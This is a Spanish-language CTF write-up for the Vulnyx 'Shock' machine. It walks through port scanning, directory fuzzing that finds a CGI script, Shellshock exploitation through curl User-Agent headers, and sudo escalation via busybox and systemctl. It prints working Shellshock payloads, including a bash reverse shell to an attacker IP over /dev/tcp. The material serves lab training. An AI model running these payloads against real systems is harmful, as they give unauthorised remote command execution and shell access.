 ```yaml
---
layout      : post
title       : "Shock - Vulnyx"
author      : elc4br4
image       : /assets/images/VULNYX/Shock-Vulnyx/Shock.jpg
optimized_image : /assets/images/VULNYX/Shock-Vulnyx/Shock.jpg
category    : [ Vulnyx ]
tags        : [ Linux ]
description : 👻En esta ocasión romperemos una máquina Linux de nivel easy de la nueva plataforma Vulnyx. Explotaremos la vulnerabilidad Shellshock y escalaremos usando dos binarios👻.
---
```


👻Estamos ante una máquina Linux Easy de la nueva plataforma VulNyx en la que tenemos máquinas basadas en UNIX con diferentes niveles de dificultad para aprender y practicar las habilidades de Ciberseguridad👻.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
4. [Escalada de Privilegios](#privesc). 

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como en todo CTF comenzamos enumerando puertos en la máquina víctima, esto lo hacemos usando nmap, aunque esta vez voy a usar la herramienta rustscan.

Lanzo la herramienta con el rango de puertos del 1 al 65535 para que escanee todos los puertos existentes.

![](/assets/images/VULNYX/Shock-Vulnyx/rustcan.webp)

Como podemos ver tenemos dos puertos abiertos, el puerto 22 y el puerto 80.

Si lanzamos un escaneo un poco más avanzado para descubrir qué servicios corren en cada puerto podremos ver lo siguiente.

```r
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:36:60:3e:26:ae:23:3f:e1:8b:5d:18:e7:a7:c7:ce (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSRcer8jyQvBQLNodMY/8sZbjcip1NPmoJkdQZV/Ngm/cXzaUR06OCNKyJM8Blve6Pi86npcZPIs5iuowUH2eTDGRPoH9EbJCbeDRrGyy+CTrdLci3VEmFV8K0rhoYA3nzCPR59CKVdW58OIEMZoJiTzX/I/dH9Mp1XLSLghkirI2YiGJBUhxLyc+03LOTAu/kHC7F1d10/XQjmuspHkfX2PvJsIhzoaKXyo2+CFZNuWkY0/gs+FN9KPdtkMnyv9/+fGn06cYBu/dw7OE9OOcdl2jZUXVT/bEfjK1nNmjp3dAKqOO3iVpciGjCFBgQWvkjakOEpvfd2wAYQHOe9pL7
|   256 34:9a:57:60:7d:66:70:d5:b5:ff:47:96:e0:36:23:75 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP/FWnKmPLA1LACd7NDtXVGKDHXYkZmtzC8zhOGcpSD6nnbvhdo4CU4ZoLMAPQfc2Ww6qNCKY9LkmeegGyZBeoM=
|   256 ae:7d:ee:fe:1d:bc:99:4d:54:45:3d:61:16:f8:6c:87 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2ClztzZ1xvNlcuG7c24bOcE/UKY3EBFH8Edpcy03vw
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Puerto | Servicio | Versión |
| ------ | -------- | ------- |
| 22     | SSH      | OpenSSH 7.9p1 Debian |
| 80     | HTTP     | Apache httpd 2.4.38 |

Tras ver que tenemos solo estos dos puertos abiertos procedo a enumerar un poco el servidor web Apache.

Accedo con el navegador para ver que encontramos de primeras y echar una pequeña ojeada inicial.

![](/assets/images/VULNYX/Shock-Vulnyx/web1.webp)

Aparente no hay nada de interés, en el código fuente tampoco, por lo que me pongo a fuzzear para buscar rutas o archivos en el servidor.

Para ello usaré la herramienta gobuster, aunque existen muchas más con las que se puede realizar el fuzzing.

![](/assets/images/VULNYX/Shock-Vulnyx/fuzzing1.webp)

Podemos ver que existe el directorio cgi-bin, y eso me hace pensar que podríamos estar ante la vulnerabilidad ShellShock, y viendo el nombre de la máquina... es lo más probable.

Sigo fuzzeando desde la ruta /cgi-bin para descubrir más directorios o archivos dentro de la misma.

Los archivos susceptibles a un ataque Shellshock son los que comúnmente pertenezcan a alguna de las siguientes extensiones, tales como cgi y sh.

Tras fuzzear encuentro un archivo llamado `shell.sh` lo que ya me va haciendo confirmar que es muy probable que estemos ante ShellShock.

![](/assets/images/VULNYX/Shock-Vulnyx/fuzzing2.webp)

Pero antes nada primero vamos a ver que es ShellShock y en que consiste.

## ¿Qué es la vulnerabilidad ShellShock y en qué consiste?

ShellShock es una vulnerabilidad asociada al CVE-2014-6271 que afecta a la shell de Linux "bash" hasta la versión 4.3.
A través de esta vulnerabilidad podemos ejecutar comandos de forma remota.

Se origina porque bash permite declarar funciones, pero no se validan de forma correcta cuando se almacenan en una variable.

# Explotación [#](explotación) {#explotación}

Ahora que ya sabemos más o menos que es esta vulnerabilidad y como se origina, toca explotarla.

Primero vamos a verificar que de verdad estamos ante ShellShock y es vulnerable al mismo.

```bash
curl -H ‘User-Agent: () { :;}; echo; echo ¿Vulnerable a ShellShock?’ ‘http://192.168.0.19/cgi-bin/shell.sh’
```

![](/assets/images/VULNYX/Shock-Vulnyx/shellshock1.webp)

Y como podemos ver ejecuta correctamente el comando `echo ¿Vulnerable a ShellShock?`.

Por lo que el siguiente paso será introducir una reverse shell en bash para intentar ganar acceso a la máquina víctima.

Ponemos netcat en escucha en el puerto 443

`nc -lnvp 443`

Y le metemos una reverse shell bash para ganar acceso.

```bash
curl -H ‘User-Agent: () { :;}; echo; bash -i >& /dev/tcp/192.168.0.30/443 0>&1’ ‘http://192.168.0.19/cgi-bin/shell.sh’
```

Y obtenemos acceso a la máquina como el usuario www-data.

![](/assets/images/VULNYX/Shock-Vulnyx/reverse-shell.webp)

# Escalada de Privilegios [#](privesc) {#privesc}

Tras ganar acceso comienzo a ojear un poco y veo que tenemos el directorio del usuario will, pero no tenemos permisos, por lo que lo primero será intentar migrarnos a este usuario.

# Movimiento Lateral - Usuario will

Ejecuto el comando `sudo -l` para enumerar permisos de sudo y veo que puedo ejecutar el binario busybox como el usuario will sin contraseña.

![](/assets/images/VULNYX/Shock-Vulnyx/busybox.webp)

Y siempre que hablamos de binarios... hablamos de GTFOBINS  

https://gtfobins.github.io/

![](/assets/images/VULNYX/Shock-Vulnyx/busybox-gtfo.webp)

Ejecutamos el siguiente comando:

`sudo -u will /usr/bin/busybox sh`

![](/assets/images/VULNYX/Shock-Vulnyx/will.webp)

Y ya nos hemos migrado al usuario Will y podemos leer la flag user.

El siguiente paso obviamente es escalar privilegios para convertirnos en root.

# Escalada de Privilegios

Para escalar privilegios de nuevo vuelvo a ejecutar el comando `sudo -l` para enumerar permisos sudo y veo que puedo ejecutar el binario systemctl como root sin contraseña.

Por lo que este paso es igual que el anterior, nos dirigimos a gtfobins.

![](/assets/images/VULNYX/Shock-Vulnyx/systemctl-gtfobins.webp)

![](/assets/images/VULNYX/Shock-Vulnyx/systemctl.webp)

Ejecutamos lo siguiente:

```bash
sudo /usr/bin/systemctl
!sh
```

![](/assets/images/VULNYX/Shock-Vulnyx/root.webp)

Y ya somos root.








